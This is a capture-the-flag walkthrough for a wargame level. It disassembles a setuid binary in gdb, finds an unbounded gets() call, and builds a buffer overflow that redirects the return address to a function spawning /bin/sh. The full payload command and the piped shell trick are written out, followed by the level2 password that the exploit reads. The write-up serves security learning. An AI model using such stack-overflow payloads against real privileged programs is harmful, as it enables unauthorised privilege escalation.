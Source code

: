 # Level 0

## First clue
- once logged in as level1 a simple `ls -la`reveals the existence of a `level1` file, owned by `level2`:
- `level2` is an executable
- we try to execute it without arguments and we get the prompt back
- nothing happens if we write something

## Inspect with gdb
- we check the functions in the executable. the presence of gets() function reveals a potential vulnerability (`fget()` is more safe)
```
(gdb) info function
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main

```
- there are two main functions, `main` and `run`
- first we inspect main
## Main
```
  (gdb) disas main
  Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.

```
- <+6> is substracting 80 bytes from the register `esp`, that is the variable that the CPU uses to keep track of the last procedure executed. This instruction allocate 80 bytes in the stack for a variable
- <+16> is calling the `gets()` function using as argument the buffer of which the address has been pushed onto the stack in the previous instruction (+13), as usual just before the calling of a function
- <+21> and <+22> restore the control flow back to the runtime where the main function had been called, effectively updating the instruction pointer (eip) with the address stored in the return address located in the stack frame.
- the return is where we can operate, because we want to overwrite the return address (stored in `eip`) taking advantage of the fct that the gets() function doesnt't check the length of the buffer and if we write in the buffer a number of bytes higher than what the program has allocate we can rite directly in the `eip`
- to do that we need 2 things: 
    1. know exactly the offset of the buffer (we know that 80 bytes has been allocated but not exactly the offset). 
    2. which payload to execute and how. sure we need to find a way to execute `cat /user/level2/home/.pass` as `level2`but how?

## How to get the offset 
- we create a pattern of 80 characters (the same number of bytes allocated being 1 char = 1 byte) and save it i na file in the only place where we can save data: `python -c'print"a"*81' > /tmp/pattern`
- we pass this pattern as argument of ./level1 using gdb: 
    ``` 
    gdb ./level1
    run < /temp/pattern
    ```
    and we get the address returned by the program causing the segfault:
    ```
    Starting program: /home/user/level1/level1 </tmp/pattern

    Program received signal SIGSEGV, Segmentation fault.
    0x61616161 in ?? ()
    ```
- since `61` is the ASCII for the character "a" we can constate that the address contains actually 4 "a" characters, that means that 80 - 4 = the exact point where the buffer is overflowed = 76
- to confirm that we use the `info registers` gdb command:
    ```
    (gdb) info registers
    eax            0xbffff6e0	-1073744160
    ecx            0xb7fd28c4	-1208145724
    edx            0xbffff6e0	-1073744160
    ebx            0xb7fd0ff4	-1208152076
    esp            0xbffff730	0xbffff730
    ebp            0x61616161	0x61616161
    esi            0x0	0
    edi            0x0	0
    eip            0x61616161	0x61616161
    eflags         0x210286	[ PF SF IF RF ID ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
    fs             0x0	0
    gs             0x33	51
    ```
## Which payload to execute
- we inspect the run function
```
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.
```
- <+41>, <+46>, and <+53> are the most critical instructions within the run function. The `fwrite` function writes data to a file stream, and the subsequent system call indicates the execution of a shell command. But what shell command is being executed? To determine this, we inspect the argument passed to the system function:
    ```
    (gdb) x/s 0x8048584
    0x8048584:	 "/bin/sh"
    ```
- and we find out that the shell command is the shell executable
- ok so if we pass the address where the run function start as return of the main function we can actually execute /bin/sh 

### Buffer overflow return overwriting:
- we get the run function start address from the `info function` or `disas run` cmd output: `0x08048444  run`
- we create a file containing 76 char + the address of run function reversing it (for little endian):
`python -c 'print"a"*76+"\x44\x84\x04\x08"' > /tmp/exploit`
- we pass the `exploit` file as argument to `./level1`and we get a response `Good... Wait what?`but after that a segfault.
- we have to find a way to keep the stdin open after cat reads from the file, ensuring the program doesn't crash when system tries to read from it: `cat /tmp/exploit - | ./level1`
## Solution
- this way the prompt is returned to us and we can try to cat the .pass of level2:
```
`cat /tmp/exploit - | ./level1`
Good... Wait what?
> whoami
level2
> cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```